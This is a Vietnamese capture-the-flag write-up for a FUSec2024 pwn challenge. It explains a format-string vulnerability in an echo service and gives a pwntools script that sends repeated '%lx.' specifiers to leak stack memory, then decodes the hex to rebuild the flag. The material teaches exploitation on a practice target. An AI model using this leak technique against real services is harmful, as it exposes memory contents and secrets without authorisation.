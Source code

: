 # Đề bài

![image](https://github.com/anhshidou/FUSec2024/assets/90485791/9e9dd906-a39b-4eb2-9bf3-138d35d2e836)

# Phân tích

Khi netcat vào, ta thấy đây là chương trình in ra những gì mình vừa nhập, mạnh dạn đoán nó sẽ có lỗi format string, nhập thử thì đúng thật, nó đã in ra toàn bộ ô nhớ.

```
import pwn
from pwn import *
import binascii


p = pwn.remote ("challenge.fuctf.com", "8003")
payload = "%lx."
for i in range (20):
    payload += "%lx."


print (payload)
p.recvuntil(b'Enter a string: \n>')
p.sendline(payload.encode())
result = p.recvline().decode().replace("\n", "").replace(" ", "").split(".")
print(result)
p.close()

hex_result = ""
for hs in result:
    try:
        hex_result += bytes.fromhex(hs).decode('utf-8')
        
    except:
        continue
ans = hex_result.replace(".xl%", "").replace("xl%.", "").replace("%.xl", "").replace("F", "F ").replace("ga", "ga ").split()

print(ans[0][::-1] + ans[1][::-1] + ans[2][::-1])

```
